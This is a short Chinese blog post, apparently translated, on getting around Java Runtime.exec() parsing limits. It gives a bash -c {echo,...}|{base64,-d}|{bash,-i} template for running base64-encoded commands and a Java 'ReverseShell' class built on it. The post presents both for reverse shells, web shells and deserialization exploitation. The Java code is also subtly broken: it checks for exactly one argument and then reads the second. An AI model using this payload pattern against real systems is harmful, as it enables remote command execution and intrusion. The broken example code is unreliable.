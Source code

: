 本文转载自https://r0yanx.com/tools/java_exec_encode/，是这篇文章的翻译版本。

## Runtime

在Java中尝试使用`Runtime.getRuntime().exec()`执行 Web Shell、反序列化漏洞、反弹shell或通过其他载体时可能会发生这种情况。

这是因为重定向和管道字符的使用方式在正在启动的进程上下文中没有意义。例如，在linux命令下执行：`ls > dir_listing`这会把当前目录的列表输出到名为`dir_listing`的文件中。

但在 `exec()` 方法的上下文中，该命令会被解释为尝试访问 `>` 和 `dir_listing` 目录。

还有时，带有空格的参数会被 `StringTokenizer` 类错误拆分。例如，`ls "My Directory"` 会被错误解析为 `ls '"My' 'Directory"'`。

## 使用base64

在这篇文章中提到了我们应该使用base64方法，使得命令执行可以达到我们想要的效果，同时这个老哥给出了一个转为base64命令行的方法，如下：

![image-20241228220440889](./main.assets/image-20241228220440889.png)

格式的前边和后边都是固定的，中间穿插了一节base64编码后的命令

```
bash -c {echo,[..bash64..]}|{base64,-d}|{bash,-i}
```

## 反弹shell

这样我们就能在Runtime.getRuntime中执行类似反弹shell一样的命令了。

![image-20241228221930165](./main.assets/image-20241228221930165.png)

代码我也贴出来了，如下：

```java
import sun.misc.BASE64Encoder;

public class ReverseShell {
    public static void main(String[] args) throws Exception {
        if (args.length != 1) {
            System.out.println("Error Shell Args");
        }
        String shell = args[1];
        BASE64Encoder base64Encoder = new BASE64Encoder();
        String base64 = base64Encoder.encode(shell.getBytes());
        Runtime.getRuntime().exec("bash -c {echo," + base64 + "}|{base64,-d}|{bash,-i}");
    }
}
```



